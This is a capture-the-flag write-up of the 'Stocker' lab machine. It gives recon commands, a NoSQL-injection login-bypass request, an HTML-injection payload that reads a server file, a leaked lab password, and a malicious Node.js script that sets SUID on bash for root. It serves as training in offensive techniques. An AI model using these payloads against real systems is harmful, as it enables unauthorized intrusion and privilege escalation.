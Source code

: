 # Writeup - Stocker Linux Easy

## Initial Recon
```bash
ping -c 1 10.10.11.196 -R
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
nmap -sCV -p22, 80 10.10.11.196 -oN targetedPorts
gobuster dir -u http://stocker.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
# gobuster for subdomains
gobuster vhost -u http://stocker.htb/ -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 --apend-domain
```
## Exploiting nosql injection: Login bypass

If you want to try sending the payload as JSON, update the Content-Type and ensure the server accepts JSON input:
```json
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 75
Origin: http://dev.stocker.htb
Connection: keep-alive
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AeE6WpibBs4gMiv-vhTnFG70k72Nyff3O.aoVHyLeUmoDHJ2vttbUNuIty36zOOk3p68C%2BdukR6gw
Upgrade-Insecure-Requests: 1
Priority: u=0, i

{
        "username":{
                "$ne":"test"
        },
        "password":{
                "$ne":"test"
        }
}
```

Leaking the password via figuring out it's route index.js

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Content-Length: 383
Origin: http://dev.stocker.htb
Connection: keep-alive
Cookie: connect.sid=s%3AeE6WpibBs4gMiv-vhTnFG70k72Nyff3O.aoVHyLeUmoDHJ2vttbUNuIty36zOOk3p68C%2BdukR6gw
Priority: u=0

{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8d",
      "title": "<img src=\"xasdasdasd\" onerror=\"document.write('<iframe src=file:///var/www/dev/index.js height=100% width=100%></iframe>')\"/>",
      "description": "It's a red cup.",
      "image": "red-cup.jpg",
      "price": 32,
      "currentStock": 4,
      "__v": 0,
      "amount": 1
    }
  ]
}
```

We get a user shell via a remote ssh login:
```bash
ssh angoose@stocker.htb password: IHeardPassphrasesArePrettySecure
id
sudo -l
cd /root/
```
we can only run this resource: 
usr/bin/node usr/local/scripts/*js
the *js wildcard allows us to inject a malicious file that can run shell commands in node ../../../tmp/malicious.js
Create a malicious.js in /tmp/
```js
const { exec } = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

we execute with sudo usr/bin/node /usr/local/scripts/../../../tmp/malicious.js
finally bash -p y whoami? root.

